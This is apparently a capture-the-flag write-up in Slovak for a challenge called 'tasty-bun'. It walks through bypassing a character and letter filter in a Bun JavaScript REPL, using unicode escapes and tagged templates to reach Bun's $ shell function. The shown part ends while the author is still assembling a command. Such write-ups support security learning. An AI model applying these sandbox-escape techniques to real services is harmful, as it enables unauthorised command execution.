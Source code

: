 Zo zdrojáku vidíme určité obmedzenia znakov, ktoré nesmieme použiť, z toho čo môžeme nám ostáva napríklad 

```
{ } ` $
```

A práve tieto nám hovoria o možnosti použitia tzv. 'tag templates'. 

Okrem toho však máme obmedzenie, že celý jeden payload nesmie obsahovať viac ako dve unikátne písmená, navyše case sensitive, takže aj aA sa berú ako dve rôzne písmená..

Z dockerfile je zrejmé, že ide o bun, takže vieme pristúpiť k shellu pomocou Bun objektu a doláru.. 

```
tasty-bun> Bun
🍩 Sorry, we can't bake with these ingredients!
```

Ale obmedzenie na dve písmenká... ako sa správajú unicode náhrady?

```
tasty-bun> \u0042\u0075\u006e
[object Bun]
```

To by šlo... čo shell?

```
tasty-bun> \u0042\u0075\u006e.$
[object Function]
```

OK... Skúsim niečo zavolať

```
tasty-bun> \u0042\u0075\u006e.$
[object Function]
tasty-bun> \u0042\u0075\u006e.$()
🍩 Sorry, we can't bake with these ingredients!
tasty-bun> \u0042\u0075\u006e.$''
🍩 Sorry, we can't bake with these ingredients!
tasty-bun> \u0042\u0075\u006e.$``
[object Object]
```

Vracia objekt, to nie je zlé.. ale ako poskladať príkaz s použitím dvoch písmeniek. Viem priradiť a concatenate???

```
tasty-bun> a=1
1
tasty-bun> a
1
tasty-bun> $1=ba
🥞 Oops! The bun fell flat: ReferenceError: ba is not defined
tasty-bun> $1=`ba`
ba
tasty-bun> $1+=`\u005f`
ba_
tasty-bun> $1
ba_
```
